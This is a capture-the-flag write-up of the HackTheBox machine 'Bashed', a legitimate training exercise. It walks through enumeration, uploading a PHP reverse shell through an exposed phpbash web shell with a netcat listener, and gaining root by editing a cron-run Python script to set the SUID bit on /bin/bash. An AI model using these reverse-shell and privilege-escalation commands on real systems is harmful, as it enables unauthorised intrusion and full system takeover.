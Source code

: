 ```yaml
---
title: Bashed Writeup - HackTheBox
date: 2023-11-02 08:25
categories: [Writeup, HackTheBox]
tags: [Linux, Easy] # TAG names should always be lowercase
---
```


![NMAP](/assets/img/htb/Bashed/bashedhtb.png)

Hello, welcome to the Bashed Writeup from [HackTheBox](https://app.hackthebox.com/machines/Bashed).

## Enumeration

---

### NMAP Open ports

In first step, we are going to enumerate the list of open ports with NMAP.

![NMAP](/assets/img/htb/Bashed/nmap.png)

**Port 80:** HTTP

### Whatweb

![WhatWeb](/assets/img/htb/Bashed/whatweb.png)
**Apache**: 2.4.18

As we can see in the above image, we have a web server running on port 80, so lets take a look.

![Web](/assets/img/htb/Bashed/web.png)

We found **phpbash**, seems like its a tool actually developed in this server so lets take a look in github:
[PHPBash](https://github.com/Arrexel/phpbash)

> Phpbash is a standalone, semi-interactive web shell. It's main purpose is to assist in penetration tests where traditional reverse shells are not possible. The design is based on the default Kali Linux terminal colors, so pentesters should feel right at home.

In this case, i can imagine that we have somewhere a **phpbash.php** that maybe we can use, so lets use **gobuster** to enumerate directories.
![Gobuster](/assets/img/htb/Bashed/gobuster.png)

After enumerate some directories, we found in **/dev** two scripts in **PHP**:
![web](/assets/img/htb/Bashed/devweb.png)

Lets find out!

## Exploitation

Like we saw before, **phpbash.php** its a web shell, so lets try with **wget** download a reverse shell in PHP from our machine, in this case i will use PentestMonkey one.
[PHP Reverse Shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

We open a http server in the same directory as the Reverse Shell:

```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

### PHPBash

With **wget** im going to download the reverse shell from our machine.
![phpbash](/assets/img/htb/Bashed/phpbash.png)

### Shell as www-data

Now we start the netcat listener in port 443 and navigate to /uploads/ennove.php (Yes, incredible name for a shell...)

```bash
nc -nlvp 443
listening on [any] 443 ...
```

After we navigate to /uploads/ennove.php, we got a shell
![Reverse](/assets/img/htb/Bashed/reverse.png)

# Flag user

```bash
www-data@bashed:/var/www/html/dev$ cat / -name user.txt 2>/dev/null
/home/arrexel/user.txt
www-data@bashed:/var/www/html/dev$ cat /home/arrexel/user.txt
FLAG :D
```

## Privilege Escalation

### Shell as scriptmanager

As www-data, lets see our sudo privileges, in this case we can run any command as scriptmanager so lets spawn a bash.
![Reverse](/assets/img/htb/Bashed/shellasscriptmanager.png)

### Shell as root

After enumeration as scriptmanager, we found a folder **scripts** with a few files.

```bash
scriptmanager@bashed:/$ cd scripts
scriptmanager@bashed:/scripts$ ls -la
total 16
drwxrwxr--  2 scriptmanager scriptmanager
drwxr-xr-x 23 root          root
-rw-r--r--  1 scriptmanager scriptmanager
-rw-r--r--  1 root          root
```

Lets see the files:

```bash
scriptmanager@bashed:/scripts$ cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ cat test.txt
testing 123!scriptmanager@bashed:/scripts
```

As we can see, **test.py** creates a **test.txt** and root is the owner but we can modify test.py, so probably who runs the python commands is root, so lets try to get permissions u+s in bash:

# Modified test.py

```bash
import os
os.system("chmod u+s /bin/bash")
```

After that, we try to run **test.py**, but **test.txt** is created as scriptmanager owner so maybe root somehow is running **test.py** (maybe a cronjob?), lets try a script to enumerate process:

```bash
#!/bin/bash
old_process=$(ps -eo command)
while true; do
        new_process=$(ps -eo command)
        diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "procmon | command | kworker"
        old_process=$new_process
done
```

```bash
chmod +x procmon.sh
./procmon.sh

> /usr/sbin/CRON -f
> /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done
> python test.py
< /usr/sbin/CRON -f
< /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done
< python test.py
```

As we can see, **> python test.py** is being executed in a short period time, so lets wait and watch for permissions changes:

```bash
scriptmanager@bashed:/scripts$ watch -n 1 ls -la /bin/bash
```

After 1 minute:

```bash
scriptmanager@bashed:/scripts$ bash -p
bash-4.3# whoami
root
FLAG :D
```
